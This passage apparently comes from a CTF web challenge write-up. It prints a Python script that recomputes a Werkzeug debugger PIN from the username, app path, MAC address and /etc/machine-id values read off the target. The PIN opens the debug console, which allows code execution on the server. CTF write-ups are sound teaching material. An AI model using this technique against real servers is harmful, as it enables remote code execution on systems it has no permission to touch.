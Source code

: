 ![image.png](./Aswan%20CTF%20Web%20Writeups/Hambozo/image%205.png)

- after searching i got that exploit for generating the pin https://hacktricks.boitatech.com.br/pentesting/pentesting-web/werkzeug

```java
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```